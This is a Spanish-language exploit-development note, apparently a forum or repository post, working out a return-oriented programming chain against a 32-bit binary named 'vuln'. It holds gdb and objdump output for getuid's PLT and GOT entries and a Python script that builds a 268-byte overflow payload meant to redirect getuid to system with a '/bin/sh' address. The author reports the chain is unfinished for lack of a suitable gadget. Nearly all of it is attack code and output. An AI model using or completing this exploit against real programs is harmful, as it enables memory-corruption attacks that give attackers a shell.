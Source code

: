```
gdb-peda$ p system - getuid
$10 = 0xfff88ea0
```

GOT getuid: 0x804a010
PLT getuid: 0x80483c0
```
objdump -M intell -drw ./vuln | grep -a3 getuid
080483c0 <getuid@plt>:
 80483c0:	ff 25 10 a0 04 08    	jmp    DWORD PTR ds:0x804a010
 80483c6:	68 08 00 00 00       	push   0x8
 80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <.plt>
```

El problema es que a la hora de buscar gadgets no hay ninguno que nos sume el valor del offset a la posición del GOT de getuid. Algo como: "add [ebx+0x5d5b04c4] eax". Lo único parecido que he encontrado es "adc [esi+0x140e4104] al", pero no se como hacer que el flag CF=1.
No sé como solucionarlo entonces. Seguiré buscando...
Este es el script de python que estaba haciendo:

```python
#!/usr/bin/python


from struct import pack


# Peta en 268
# 222 +
junk = "A" * 268

gadget1 = 0x0804861c	        #: pop ebx ; pop esi ; pop edi ; pop ebp ;;
gadget2 = 0x8048712		       	#: add eax [ebx+0xe] ; adc [esi+0x140e4104] al ; add dword [0x2300e4e] 0x48 ; push cs ; adc al 0x41 ;;

padding = 0xdeadbeef
memreal = 0x0804a030
#offset = 0xfff88ea0
offset = 0x77160
getuid_got = (0x804a010-0x140e4104) & 0xFFFFFFFF
getuid_plt = 0x080483c0
gnu_bash = 0xb7f54d28
#0x80002018
#libc : 0xb7f54d28 ("/bin/sh")


#rop = "BBBB"
rop = pack('<I',gadget1)
rop += pack('<I', memreal)
rop += pack('<I', getuid_got)
rop += pack('<I', padding)
rop += pack('<I', padding)


rop += pack('<I',gadget2)
rop += pack('<I', offset)
rop += pack('<I', padding)
rop += pack('<I', padding)
rop += pack('<I', padding)
rop += pack('<I', gnu_bash)


junk2 = "C" * 44
payload = junk + rop 
# + rop
```